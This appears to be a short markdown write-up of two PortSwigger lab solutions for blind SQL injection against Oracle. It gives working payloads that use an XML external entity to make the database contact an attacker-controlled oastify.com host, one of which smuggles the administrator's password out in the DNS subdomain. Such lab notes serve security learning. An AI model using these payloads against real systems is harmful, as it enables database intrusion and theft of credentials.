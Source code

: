 # SQL Injection

[SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### LAB: Blind SQL injection with out-of-band interaction
Use the payload in the DNS lookup section for Oracle. The database query now should look like this:

    SELECT * FROM tracking WHERE id = 'x' 
    UNION 
    SELECT EXTRACTVALUE(
        xmltype('<?xml version="1.0" encoding="UTF-8"?>
                <!DOCTYPE root [
                    <!ENTITY % remote SYSTEM "http://0jkn3s1omf3prbf85pphzy5xroxfl69v.oastify.com/"> 
                    %remote;
                ]>'),
        '/l'
    ) FROM dual--

This will cause a DNS lookup to our server.

### LAB: Blind SQL injection with out-of-band data exfiltration
Same as above lab but now include a subquery to steal the administrator's password. The database query now should look like this:

    SELECT * FROM tracking WHERE id = 'x' 
    UNION 
    SELECT EXTRACTVALUE(
        xmltype('<?xml version="1.0" encoding="UTF-8"?>
                <!DOCTYPE root [
                    <!ENTITY % remote SYSTEM 
                    "http://'||(SELECT password FROM users WHERE username='administrator')||'.0jkn3s1omf3prbf85pphzy5xroxfl69v.oastify.com/"> 
                    %remote;
                ]>'),
        '/l'
    ) FROM dual--

This will cause a DNS lookup to our server containing the administrator's password in the subdomain.